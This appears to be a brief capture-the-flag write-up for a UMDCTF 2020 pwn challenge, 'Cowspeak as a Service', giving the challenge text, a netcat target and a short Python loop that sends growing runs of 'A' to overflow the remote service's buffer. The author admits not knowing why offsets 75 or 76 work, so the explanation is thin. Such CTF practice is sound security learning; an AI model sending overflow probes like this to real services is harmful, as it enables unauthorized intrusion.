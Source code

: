 ## Cowspeak as a Service (250pt)

### Description

> lumpus gave up installing cowspeak so he made it a remote service instead! Too bad it keeps overwriting old  messages... Can you become chief cow and read the first message? 
>
> `nc 192.241.138.174 9998` 
>
> Author: `WittsEnd2`, `lumpus`


### Attachment

[cowsay.c](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/UMDCTF2020/pwn/cowsay/main.c)

### Analysis

I don't understand what this challenge means... so I try to brute force...

### Solution

```python
for i in range(20):
    p = remote('192.241.138.174',9998)
    offset = 64+i
    payload = 'A'*offset
    print "[+] ",i
    p.sendline(payload)
    print p.recvall()
    p.close()
```

Success while offset is 75 or 76 ... I don't actually know why...

![](http://image.taqini.space/img/20200419175050.png)